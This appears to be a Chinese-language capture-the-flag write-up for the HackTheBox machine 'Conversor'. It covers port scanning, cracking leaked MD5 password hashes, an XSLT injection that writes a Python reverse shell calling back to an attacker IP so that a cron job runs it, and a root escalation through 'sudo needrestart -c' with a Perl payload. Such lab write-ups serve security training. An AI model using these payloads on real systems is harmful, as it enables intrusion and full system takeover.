# HTB-Season9-Conversor Writeup

## 信息收集

### 端口扫描

```bash
nmap -sS -sV -A -T4 -p- 10.10.11.92
```



22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)

### 目录扫描

```bash
dirsearch -u http://conversor.htb
```



## 渗透测试

### 80端口

该站点需要登录,并且提供注册功能
注册账户登录后,可以发现核心功能：上传XML和XSLT文件进行转换生成HTML报告,经过简单测试无果,转入8000端口


### 8000端口

访问http:\/\/conversor.htb:8000,发现存在数据库文件泄露



该数据库文件泄露包括admin在内的所有用户的密码哈希值



其中存在我自己注册的zhaha用户
密码为123456,对应hash为e10adc3949ba59abbe56e057f20f883e



询问豆包得知加密为Raw-MD5,因为直接使用john自动识别hash类型出错,需要指定hash类型

```bash
john '/root/Desktop/HTB/S9/Conversor/pass_hash' --wordlist='/root/Desktop/wordlists/rockyou.txt' --format=Raw-MD5
```




初步分析出admin密码为admin但是登录失败,除了自建的zhaha用户

### 80端口

8000端口除了泄露数据库文件没有利用点,说明渗透目标还是为80端口

在about界面发现源代码泄露



解压后发现源代码目录结构



我们关注app.py文件,发现存在一个路由为/convert,且为POST方法

这就是转换功能的实现代码,并且对上传的xml不做任何校验,直接将其转换


同时在install.md文件中发现,存在定时任务,每分钟执行/var/www/conversor.htb/scripts/下的python脚本



因此我们可以利用EXSLT的扩展写入恶意脚本,通过定时任务执行反弹shell脚本,获取服务器权限

我们在/var/www/conversor.htb/scripts/目录下创建一个恶意脚本,内容为反弹shell的python脚本

evil.xlst
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    version="1.0"
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:shell="http://exslt.org/common"
    extension-element-prefixes="shell">
 
    <xsl:template match="/">
        <shell:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.23",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
        </shell:document>
    </xsl:template>
</xsl:stylesheet>

```


参考:
[Payloads All The Things
XSLT Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/#read-files-and-ssrf-using-document)



### 权限提升

当前用户为www-data,为低权限用户,我们需要切换至普通用户


#### 普通用户

查看passwd文件,我们发现fismathack用户

这与8000端口中泄露数据库文件中fismathack用户名一致,尝试登录


fismathack:Keepmesafeandwarm
成功登录,切换至fismathack用户



#### root用户

无suid提权途径



sudo提权



needrestart v3.7存在本地权限提升

-c 选项可以指定p去解析我们的恶意perl脚本

root\.sh
```perl
BEGIN { system("/bin/bash -p") }
```

payload
```bash
sudo needrestart -c root.sh
```


